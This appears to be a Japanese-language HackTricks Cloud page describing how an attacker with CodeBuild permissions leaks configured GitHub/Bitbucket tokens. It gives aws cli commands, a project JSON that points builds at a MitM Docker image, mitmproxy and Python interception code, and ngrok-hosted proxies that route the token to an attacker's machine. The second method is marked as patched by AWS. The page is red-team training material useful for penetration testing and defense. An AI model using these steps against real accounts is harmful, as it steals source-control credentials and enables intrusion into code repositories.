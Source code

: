 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩できるソース認証情報が設定されているか確認してください:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildを使ってプロジェクトのビルドを実行するために**特定のDockerイメージ**を使用させることで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成**するか、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL CERTを信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
* Dockerイメージがビルドされたら、**パブリックリポジトリにアップロードします**（Dockerhub、ECR...）。
2. **環境を設定する**
* **新しいCodebuildプロジェクトを作成**するか、既存のものの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定する**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、資格情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように実行することもできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（おそらく金曜日）。したがって、攻撃者はもはやこれを悪用できません :)**
{% endhint %}

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができる**か、またはOAuth経由で権限が設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させることができる**。

* 攻撃者は、**http\_proxy**および**https\_proxy**という環境変数をCodeBuildプロジェクトに追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* その後、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
今、攻撃者は自分のマシンからトークンを使用し、持っているすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できます。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
